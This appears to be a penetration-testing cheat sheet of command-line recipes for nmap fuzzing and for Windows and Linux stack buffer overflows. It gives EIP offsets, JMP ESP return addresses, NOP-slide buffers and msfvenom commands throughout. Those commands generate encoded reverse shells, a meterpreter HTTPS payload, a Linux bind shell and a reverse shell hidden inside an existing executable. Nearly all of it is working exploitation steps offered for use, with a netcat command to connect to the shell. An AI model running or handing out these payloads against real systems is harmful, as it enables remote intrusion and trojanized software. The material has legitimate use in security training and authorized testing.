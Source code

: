 # DEP and ASLR

## Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

### NMap Fuzzer List  

https://nmap.org/nsedoc/categories/fuzzer.html

### NMap HTTP Form Fuzzer  

> nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

### Nmap DNS Fuzzer  

> nmap --script dns-fuzz --script-args timelimit=2h $ip -d

### MSFvenom  

https://www.offensive-security.com/metasploit-unleashed/msfvenom/

## Windows Buffer Overflows

### Controlling EIP

> locate pattern_create
>
>  pattern_create.rb -l 2700
>
>  locate pattern_offset
>
>  pattern_offset.rb -q 39694438
>
> Verify exact location of EIP - [\*] Exact match at offset 2606
>
> buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90
>
> Check for �Bad Characters� - Run multiple times 0x00 - 0xFF
>
> Use Mona to determine a module that is unprotected
>
> Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP
>
> Use NASM to determine the HEX code for a JMP ESP instruction
>
> - /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
>
> JMP ESP  
>
> 00000000 FFE4 jmp esp
>
> Run Mona in immunity log window to find (FFE4) XEF command
>
> !mona find -s "\xff\xe4" -m slmfc.dll  
>
> - found at 0x5f4a358f - Flip around for little endian format
>
> buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

### MSFVenom to create payload

> msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c �e x86/shikata_ga_nai -b "\x00\x0a\x0d"
>
> Final Payload with NOP slide  
>
> buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

### Create a PE Reverse Shell  

msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -o shell\_reverse.exe

### Create a PE Reverse Shell and Encode 9 times with Shikata\_ga\_nai  

msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata\_ga\_nai -i 9 -o shell\_reverse\_msf\_encoded.exe

### Create a PE reverse shell and embed it into an existing executable  

msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata\_ga\_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell\_reverse\_msf\_encoded\_embedded.exe

### Create a PE Reverse HTTPS shell  

msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip LPORT=443 -f exe -o met\_https\_reverse.exe

## Linux Buffer Overflows

### Run Evans Debugger against an app  

edb --run /usr/games/crossfire/bin/crossfire

### ESP register points toward the end of our CBuffer  

> add eax,12  
>
> jmp eax  
>
> 83C00C add eax,byte +0xc  
>
> FFE0 jmp eax
>
> Check for �Bad Characters� Process of elimination - Run multiple times 0x00 - 0xFF
>
> Find JMP ESP address  
>
> - "\\x97\\x45\\x13\\x08" \# Found at Address 08134597
>
> crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" + "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"
>
> msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b "\\x00\\x0a\\x0d\\x20" �e x86/shikata\_ga\_nai
>
> Connect to the shell with netcat:
>
>nc -v $ip 4444
